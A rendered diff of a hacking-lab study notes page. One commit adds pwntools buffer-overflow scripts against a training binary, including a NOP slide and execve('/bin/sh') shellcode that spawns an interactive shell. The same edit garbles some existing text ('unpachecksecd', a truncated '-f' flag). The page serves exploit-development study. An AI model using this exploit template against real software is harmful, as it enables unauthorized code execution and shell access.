

Before and after one commit to Bruno-Macedo/hacklab, a Markdown page: 0_theory.md, 3 parts joined by grey strips. Shown at 93% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
pwntools

````diff
--- a/0_theory.md
+++ b/0_theory.md
@@ -2,7 +2,7 @@
 
 ## Definitions
 - **Attack Vector**: tool, technique method USED to attack
-  - weapons, phishing, DOS, Web drive-by, Flaws in browser, unpached vulnerability
+  - weapons, phishing, DOS, Web drive-by, Flaws in browser, unpachecksecd vulnerability
 - **Attack Surface**: surface area of the victim that ca be impacted
   - unarmoured body, email server, internet-facebing web, end-user machine, humans
 - **Attack Surface Reduction**:
@@ -31,6 +31,18 @@
 - Write more than the capacity of the memory
 - Generating cyclic patterns
   - /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
+
+```
+from pwn import *
+
+padding = cyclic(cyclic_find('jaaa'))
+
+eip = p32(0xdeadbeef)
+
+payload = padding + eip
+
+print(payload)
+```
 
 - Method 1
   - Generate payload with metasploit
@@ -86,7 +98,35 @@
     - -f a = asci
     - -f s = string
     - shellcraf i386.linux.sh
-    - shellcraft i386.linux.execve "/bin///sh" "['sh','-p']" -f a
+    - shellcraft i386.linux.execve "/bin///sh" "['sh','-p']" -f
+
+```
+from pwn import *
+
+proc = process('./intro2pwnFinal')
+
+proc.recvline()
+
+padding = cyclic(cyclic_find('taaa'))
+
+eip = p32(0xffffd510+200)
+
+nop_slide = "\x90"*1000
+
+# shellcraft i386.linux.sh
+
+# shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f a
+
+
+shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
+
+payload = padding + eip + nop_slide + shellcode
+
+proc.send(payload)
+
+proc.interactive()
+```
+
 
 
 # Assembly in Windows
````
